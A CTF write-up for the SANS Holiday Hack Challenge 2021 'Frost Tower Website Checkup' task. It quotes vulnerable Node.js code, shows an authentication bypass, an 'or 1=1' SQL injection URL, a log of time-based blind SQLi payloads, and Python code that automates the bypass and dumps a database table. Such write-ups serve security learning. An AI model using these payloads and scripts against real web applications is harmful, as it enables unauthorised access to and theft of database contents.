






# Writeup for SANS Holiday Hack Challenge 2021 – Jack’s Back! featuring KringleCon 4: Calling Birds
## 12. Frost Tower Website Checkup
### 12.0. Description
Difficulty: :christmas_tree::christmas_tree::christmas_tree::christmas_tree::christmas_tree:  
Investigate [Frost Tower's website for security issues](https://staging.jackfrosttower.com/). [This source code will be useful in your analysis](https://download.holidayhackchallenge.com/2021/frosttower-web.zip). In Jack Frost's TODO list, what job position does Jack plan to offer Santa? Ribb Bonbowford, in Santa's dining room, may have some pointers for you.

### 12.1. [Side Challenge - The Elf C0de Python Edition](/12.%20Frost%20Tower%20Website%20Checkup/12.01.%20Side%20Challenge%20-%20The%20Elf%20C0de%20Python%20Edition/README.md)

### 12.2. Hints
**SQL Injection with Source** - *Ribb Bonbowford*: “When you have the source code, API documentation becomes [tremendously valuable](https://www.npmjs.com/package/express-session).”

### 12.3. Solution
Analyzing the source code it is possible to notice that if a POST is sent to endpoint `/postcontact` with an email address that already exists than a session is released to the user setting `session.uniqueID = email`:
```js
app.post('/postcontact', function(req, res, next){
    /* variables init */
    tempCont.query("SELECT * from uniquecontact where email="+tempCont.escape(email), function(error, rows, fields){
    /* error checking */
        var rowlength = rows.length;
        if (rowlength >= "1"){
            session = req.session;
            session.uniqueID = email; // This line give the session to an unauthenticated user
            req.flash('info', 'Email Already Exists');
            res.redirect("/contact");
        } else {
            tempCont.query("INSERT INTO uniquecontact (full_name, email, phone, country, date_created) VALUE (?, ?, ?, ?, ?)", [fullname, email, phone, country, date_created], function(error, rows, fields) {
            /* If email does not exists then the application inserts the user in uniquecontact */
});
```
To confirm this I tried to send the contact form two times with the same user details:
  
  
  

Then it's possible to access the dashboard without logging in:
  

With a valid session is then possible to exploit a SQL injection when performing GETs with multiple IDs to the `/detail` endpoint:
```js
app.get('/detail/:id', function(req, res, next) {
    /* session checking */
            if (reqparam.indexOf(',') > 0){
                var ids = reqparam.split(',');
                reqparam = "0";
                for (var i=0; i<ids.length; i++){
                    query += tempCont.escape(m.raw(ids[i])); // Here is where the magic happens
                    query += " OR id="
                }
                query += "?";
            }else{
                query = "SELECT * FROM uniquecontact WHERE id=?"
            }
            /* error checking */
        tempCont.query(query, reqparam, function(error, rows, fields){
        /* error checking and page rendering */
        });
});
```

Notice that the IDs `I-do-not-exist` and `I-also-do-not-exist` do not exist:  
  
Then confirm the SQL injection by accessing the URL https://staging.jackfrosttower.com/detail/'I-do-not-exist','I-also-do-not-exist'%20or%201=1 with a valid session and still retrieving all the content of the `uniquecontact` table that is being printed due to the ` or 1=1` part of the parameters:  
  

The real problem with this SQL injection is to avoid the usage of commas as the endpoint splits IDs on that character. Also, not being able to use UNION to obtain further values at a first try, I resurrected my [handy python script for blind SQL injections](https://github.com/LamonatoAndrea/KringleCon2/blob/master/01%20-%20Primary%20Objectives/09%20-%20Retrieve%20Scraps%20of%20Paper%20from%20Server/students.py) and slightly readapted it for the purpose.

The first run went fairly good even though the response times on successful queries were definitely huge:  
```sql
1,(SELECT CASE WHEN ((SELECT CHAR_LENGTH(HEX(database())))='14') THEN (sleep(0.1)) ELSE 2 END)  Query took 0 seconds    
1,(SELECT CASE WHEN ((SELECT CHAR_LENGTH(HEX(database())))='15') THEN (sleep(0.1)) ELSE 2 END)  Query took 0 seconds    
1,(SELECT CASE WHEN ((SELECT CHAR_LENGTH(HEX(database())))='16') THEN (sleep(0.1)) ELSE 2 END)  Query took 0 seconds    
1,(SELECT CASE WHEN ((SELECT CHAR_LENGTH(HEX(database())))='17') THEN (sleep(0.1)) ELSE 2 END)  Query took 0 seconds    
1,(SELECT CASE WHEN ((SELECT CHAR_LENGTH(HEX(database())))='18') THEN (sleep(0.1)) ELSE 2 END)  Query took 32 seconds   
1,(SELECT CASE WHEN ((SELECT CHAR_LENGTH(HEX(database())))='18') THEN (sleep(0.1)) ELSE 2 END)  Query took 32 seconds   
1,(SELECT CASE WHEN ((SELECT LOWER(HEX(database()))) LIKE '0%') THEN (sleep(0.1)) ELSE 2 END)   Query took 0 seconds    
1,(SELECT CASE WHEN ((SELECT LOWER(HEX(database()))) LIKE '1%') THEN (sleep(0.1)) ELSE 2 END)   Query took 0 seconds    
1,(SELECT CASE WHEN ((SELECT LOWER(HEX(database()))) LIKE '2%') THEN (sleep(0.1)) ELSE 2 END)   Query took 0 seconds    
1,(SELECT CASE WHEN ((SELECT LOWER(HEX(database()))) LIKE '3%') THEN (sleep(0.1)) ELSE 2 END)   Query took 0 seconds    
1,(SELECT CASE WHEN ((SELECT LOWER(HEX(database()))) LIKE '4%') THEN (sleep(0.1)) ELSE 2 END)   Query took 0 seconds    
1,(SELECT CASE WHEN ((SELECT LOWER(HEX(database()))) LIKE '5%') THEN (sleep(0.1)) ELSE 2 END)   Query took 0 seconds    
1,(SELECT CASE WHEN ((SELECT LOWER(HEX(database()))) LIKE '6%') THEN (sleep(0.1)) ELSE 2 END)   Query took 32 seconds   
1,(SELECT CASE WHEN ((SELECT LOWER(HEX(database()))) LIKE '6%') THEN (sleep(0.1)) ELSE 2 END)   Query took 32 seconds   
1,(SELECT CASE WHEN ((SELECT LOWER(HEX(database()))) LIKE '60%') THEN (sleep(0.1)) ELSE 2 END)  Query took 0 seconds    
1,(SELECT CASE WHEN ((SELECT LOWER(HEX(database()))) LIKE '61%') THEN (sleep(0.1)) ELSE 2 END)  Query took 0 seconds    
1,(SELECT CASE WHEN ((SELECT LOWER(HEX(database()))) LIKE '62%') THEN (sleep(0.1)) ELSE 2 END)  Query took 0 seconds    
1,(SELECT CASE WHEN ((SELECT LOWER(HEX(database()))) LIKE '63%') THEN (sleep(0.1)) ELSE 2 END)  Query took 0 seconds    
1,(SELECT CASE WHEN ((SELECT LOWER(HEX(database()))) LIKE '64%') THEN (sleep(0.1)) ELSE 2 END)  Query took 0 seconds    
1,(SELECT CASE WHEN ((SELECT LOWER(HEX(database()))) LIKE '65%') THEN (sleep(0.1)) ELSE 2 END)  Query took 32 seconds   
1,(SELECT CASE WHEN ((SELECT LOWER(HEX(database()))) LIKE '65%') THEN (sleep(0.1)) ELSE 2 END)  Query took 32 seconds   
1,(SELECT CASE WHEN ((SELECT LOWER(HEX(database()))) LIKE '650%') THEN (sleep(0.1)) ELSE 2 END) Query took 0 seconds    
1,(SELECT CASE WHEN ((SELECT LOWER(HEX(database()))) LIKE '651%') THEN (sleep(0.1)) ELSE 2 END) Query took 0 seconds    
1,(SELECT CASE WHEN ((SELECT LOWER(HEX(database()))) LIKE '652%') THEN (sleep(0.1)) ELSE 2 END) Query took 0 seconds    
1,(SELECT CASE WHEN ((SELECT LOWER(HEX(database()))) LIKE '653%') THEN (sleep(0.1)) ELSE 2 END) Query took 0 seconds    
1,(SELECT CASE WHEN ((SELECT LOWER(HEX(database()))) LIKE '654%') THEN (sleep(0.1)) ELSE 2 END) Query took 0 seconds    
1,(SELECT CASE WHEN ((SELECT LOWER(HEX(database()))) LIKE '655%') THEN (sleep(0.1)) ELSE 2 END) Query took 0 seconds    
1,(SELECT CASE WHEN ((SELECT LOWER(HEX(database()))) LIKE '656%') THEN (sleep(0.1)) ELSE 2 END) Query took 32 seconds   
1,(SELECT CASE WHEN ((SELECT LOWER(HEX(database()))) LIKE '656%') THEN (sleep(0.1)) ELSE 2 END) Query took 32 seconds   
```

With 32 seconds of response time for every successful query, it ended up in the session being invalidated so I added a logic to programmatically bypass the authentication in case of issue:
```python
def bypassAuth ():
    dashboard_get_url = "https://staging.jackfrosttower.com/dashboard"
    contact_get_url = "https://staging.jackfrosttower.com/contact"
    contact_post_url = "https://staging.jackfrosttower.com/postcontact"

    new = '<p class="success">Data Saved to Database!</p>'
    existing = '<p class="success">Email Already Exists</p>'

    postdata = {"fullname":"1@1.1","email":"1@1.1","phone":"1@1.1","country":"-Select-","submit":"SAVE"}

    r = HTTP_SESSION.get(dashboard_get_url)
    if "login" in r.url:
        sys.stderr.write("Need to bypass Auth\n")
        r = HTTP_SESSION.get(contact_get_url)
        sys.stderr.write("First GET done\n")
        
        csrf = getCsrfToken (r)
        postdata["_csrf"] = csrf
        r = HTTP_SESSION.post(contact_post_url, data=postdata)
        sys.stderr.write("First POST done, CSRF token '{}'\n".format(csrf))

        csrf = getCsrfToken (r)
        postdata["_csrf"] = csrf
        r = HTTP_SESSION.post(contact_post_url, data=postdata) # double to bypass
        sys.stderr.write("Second POST done, CSRF token '{}'\n".format(csrf))

        if existing in r.text:
            r = HTTP_SESSION.get(dashboard_get_url)
            if r.url == dashboard_get_url:
                sys.stderr.write("Authentication bypassed, connect.sid is '{}'\n".format(HTTP_SESSION.cookies['connect.sid']))
            else:
                sys.stderr.write("Authentication bypass FAILED\n")
```

I also implemented a timeout logic to the request so in case the response is not received within the expected `sleepTime` it is still considered a successful injection result:
```python
def sendRequest (baseUrl, sleepTime):
    response = None
    try:
        response = HTTP_SESSION.get(baseUrl, timeout=sleepTime)
        if response.url != baseUrl:
            bypassAuth ()
            response = sendRequest(baseUrl, sleepTime)
    except requests.exceptions.Timeout:
        sys.stderr.write ("Timed out, assuming valid blind\t")
        return sleepTime
    except Exception as e:
        # Resend and hope
        print "!!!!!!!!!!!!!!!!!!!!!!!!!!!!!"
        print "!!!!!! RESEND AND HOPE !!!!!!"
        print " ! Excpetion: {} !".format(e)
        print "!!!!!!!!!!!!!!!!!!!!!!!!!!!!!"
        bypassAuth ()
        response = sendRequest(baseUrl, sleepTime)
    return response
```

A first run shown the table `TODO` that was not present in the given [encontact_db.sql](frosttower-web/sql/encontact_db.sql):
```
┌──(thedead㉿thinkali)-[~/Desktop/repos/Kringlecon4/12) Frost Tower Website Checkup]
└─$ python2 frost_tower_SQLi.py 2>frost_tower_SQLi_stderr1.txt
#### Setup ###
Base URL                 : https://staging.jackfrosttower.com/detail/PAYLOAD
Base Query               : 1,QUERY_PAYLOAD
Sleep Time               : 0.1
#### Run ###
Table Schema encontact Table todo has 3 columns
Table Schema encontact Table todo column #0 has a 4 char long hex encoded name
Table Schema encontact Table todo column #0 has name id [hex 6964]
Table Schema encontact Table todo column id has type INT
Table Schema encontact Table todo column #1 has a 8 char long hex encoded name
Table Schema encontact Table todo column #1 has name note [hex 6e6f7465]
Table Schema encontact Table todo column note has type VARCHAR
Table Schema encontact Table todo column #2 has a 18 char long hex encoded name
Table Schema encontact Table todo column #2 has name completed [hex 636f6d706c65746564]
Table Schema encontact Table todo column completed has type TINYINT
Table Schema encontact Table todo Columns [{'columnName': 'id', 'columnType': 'INT', 'isPK': True}, {'columnName': 'note', 'columnType': 'VARCHAR', 'isPK': False}, {'columnName': 'completed', 'columnType': 'TINYINT', 'isPK': False}]
```

From column `note` of `TODO` table it is possible to extract the challenge answer using the very same SQL injection technique and having a *LOT* of time to wait & waste:
```
Table todo has 9 rows
Table todo row#0 has content [1, "Buy up land all around Santa's Castle", 1]
Table todo row#1 has content [2, "Build bigger and more majestic tower next to Santa's", 1]
Table todo row#2 has content [3, "Erode Santa's influence at the North Pole via FrostFest, the greatest Con in history", 1]
Table todo row#3 has content [4, "Dishearten Santa's elves and encourage defection to our cause", 0]
Table todo row#4 has content [5, "Steal Santa's sleigh technology and build a competing and way better Frosty present delivery vehicle", 0]
Table todo row#5 has content [6, "Undermine Santa's ability to deliver presents on 12/24 through elf staff shortages, technology glitches, and assorted mayhem", 0]
Table todo row#6 has content [7, 'Force Santa to cancel Christmas', 0]
Table todo row#7 has content [8, 'SAVE THE DAY by delivering Frosty presents using merch from the Frost Tower Gift Shop to children world-wide... so the whole world sees that Frost saved the Holiday Season!!!!  Bwahahahahaha!', 0]
Table todo row#8 has content [9, 'With Santa defeated, offer the old man a job as a clerk in the Frost Tower Gift Shop so we can keep an eye on him', 0]
```

...aaaaanddd that’s how Jack is going to try getting Santa a job as a clerk :)

### 12.4. It’s FOSS
The source code for the SQL injection script is [available](sqli/frost_tower_SQLi.py). 

---
## [2. Where in the World is Caramel Santiaigo?](README.md)
## [2.1. Side Challenge - Exif Metadata](README.md)
## [3. Thaw Frost Tower's Entrance](README.md)
## [3.1. Side Challenge - Grepping for Gold](README.md)
## [4. Slot Machine Investigation](README.md)
## [4.1. Side Challenge - Logic Munchers](README.md)
## [5. Strange USB Device](README.md)
## [5.1. Side Challenge - IPv6 Sandbox](README.md)
## [6. Shellcode Primer](README.md)
## [6.1. Side Challenge - Holiday Hero](README.md)
## [7. Printer Exploitation](README.md)
## [7.0. Description](README.md)
## [8. Kerberoasting on an Open Fire](README.md)
## [8.1. Side Challenge - HoHo … No](README.md)
## [9. Splunk!](README.md)
## [9.1. Side Challenge - Yara Analysis](README.md)
## [10. Now Hiring!](README.md)
## [10.1. Side Challenge - IMDS Exploration](README.md)
## [11. Customer Complaint Analysis](README.md)
## [11.1. Side Challenge - Strace Ltrace Retrace](README.md)
## [12. Frost Tower Website Checkup](README.md)
## [12.1. Side Challenge - The Elf C0de Python Edition](README.md)
## [13. FPGA Programming](README.md)
## [13.1. Side Challenge - Frostavator](README.md)
## [14. Bonus! Blue Log4Jack](README.md)
## [15. Bonus! Red Log4Jack](README.md)
---
## [0. windovo\\thedead> whoami](../README.md)
## [1. KringleCon Orientation](01.%20KringleCon%20Orientation/README.md)
## [16. That’s how Jack came from space](../README.md#16-thats-how-jack-came-from-space)
## [17. Narrative](../README.md#17-narrative)
## [18. Conclusions](../README.md#18-conclusions)